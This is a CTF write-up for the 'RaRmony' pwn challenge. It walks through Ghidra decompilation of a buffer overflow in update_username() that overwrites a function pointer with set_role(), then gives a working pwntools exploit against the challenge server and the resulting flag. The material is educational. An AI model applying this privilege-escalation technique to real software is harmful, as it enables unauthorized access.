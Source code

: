```yaml
---
grand_parent: Categories
parent: Pwn
title: RaRmony
nav_order: 1
---
```


# RaRmony 
```
Discord is full of problems; so I made my own service for discussion and flags!

I came up with 'Harmony' as a name months before DragonCTF had their challenge, and I like the name >:(
```

## Challenge

> TL;DR: Buffer overflow to overwrite `update_username()` function ptr to `set_role()`. Then, use "Change username" functionality and read "secret-admin-chat" channel.

Running the program:
```
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
```

The binary comprises of 4 different functionalities:
- `Read Channel` - Allow you to specify a channel to read
- `View User Info` - Displays your current user information
- `Change role name` - Modify your role
- `Change username` - Modify your username

The "secret-admin-chat" channel contains the flag. However, if you try to read that channel (Not that simple :smile:), you will get a "Not allowed to see this channel!" message. 

A snippet of ghidra's decompiled `print_channel()`
```c
  if (*(int *)(param_1 + 8) < *(int *)(current_user + 4)) {
    puts("Not allowed to see this channel!");
  }
```

`*(current_user + 4)` is evaluated to 2 while `*(param_1 + 8)` is evaluated to 0. Since 0 is less than 2, you will get the error message.

:dart: Goal: Modify `*(current_user + 4)` to 0 or less so that you can read "secret-admin-chat" channel.

:information_source: Note: You cannot modify the value of `param_1` as the binary used `param_1` to specify the channel name.

After analysing the binary, we found a vulnerability in `update_username()`. We can overwrite the function ptr which allows us to run arbitrary function.

Ghidra's decompiled update_username()
```c
void update_username(long param_1)

{
  size_t sVar1;
  long in_FS_OFFSET;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = param_1;
  printf("Enter new username: ");
  fgets(local_38,0x28,stdin);
  sVar1 = strlen(local_38);
  local_38[sVar1 - 1] = '\0';
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Knowledge gained after analysing the binary:
- From `main()`, we know that `update_username()` function is invoked using `**(current_user + 0x30)(current_user)` so `(current_user + 0x30)` contains the address of `update_username()`
- `local_40` variable in `update_username()` is `current_user`

The vulnerable line is:
```c
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
``` 

Since the offset from `(current_user + 0x10)` to `(current_user + 0x30)` is less than 0x28, the above code will overwrite address of `update_username()` located at `(current_user + 0x30)`. Hence, changing "Change username" functionality. So, we can overwrite the actual function and run arbitrary function (HEHE! :sunglasses:)

Next challenge: Find a suitable function to overwrite.

We found `set_role()` function which modifies the value of `*(param_1 + 4)` to `param_2`

Ghidra's decompiled `set_role()`
```c
void set_role(long param_1,undefined4 param_2)

{
  *(undefined4 *)(param_1 + 4) = param_2;
  return;
}
```

Knowledge gained after analysing the binary:
- When the binary calls `update_username()`, the $rdi (1st arg) and the $rsi (2nd arg) contains the address of current_user and 0x0 respectively.

If we overwrite the address of `update_username()` with `set_role()` and then use "Change username" functionality, we can modify the value of `*(current_user + 4)` to 0x0 (which is our goal). Then, we can read the "secret-admin-chat" channel

Working POC:
```python
from pwn import *

binary = ELF('./harmony')
set_role = b'\x3b\x15\x40'
#r = process('./harmony')
#pause()
r = remote('193.57.159.27', 28514)
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'username: ')
r.sendline(b'A'*32 + set_role)
r.recvline(b'> ')
r.sendline(b'3') # update current_user + 4
r.recvline(b'> ')
r.sendline(b'0')
r.recvline(b'> ')
r.sendline(b'2')

r.interactive()
```

Output of the program:
```bash
$ python3 pwn4.py
[*] '/home/kali/Downloads/rarctf/rarmony/rarmony/harmony'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 28514: Done
[*] Switching to interactive mode
0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> Choose channel to view
0. general
1. pwn
2. secret-admin-chat
3. team-locator-inator
4. crypto
5. spam
6. rev
7. misc
8. web
> secret-admin-chat
Tony: In case I forget it, here's the flag for Harmony
Tony: rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}
wiwam845: no leek nerd smh
Tony: sad!
```

Flag: `rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}`